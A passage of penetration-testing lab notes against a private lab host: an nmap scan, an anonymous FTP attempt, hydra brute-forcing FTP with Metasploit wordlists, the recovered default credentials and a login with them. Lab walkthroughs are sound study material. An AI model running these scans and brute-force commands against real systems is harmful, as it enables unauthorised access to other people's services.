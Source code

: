 ```bash
nmap -sV -sC -p21,80 10.2.29.246

# FTP is part of the Microsoft IIS package 
```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.29.246
```

![](.gitbook/assets/image-20230424111034331.png)

- **Brute-force** the FTP server

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I
```

```bash
[21][ftp] host: 10.2.29.246   login: administrator   password: vagrant
[21][ftp] host: 10.2.29.246   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424111420412.png)

> 📌 2 FTP users:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`

```bash
ftp 10.2.29.246
# Use administrator:vagrant
```

![](.gitbook/assets/image-20230424111747193.png)
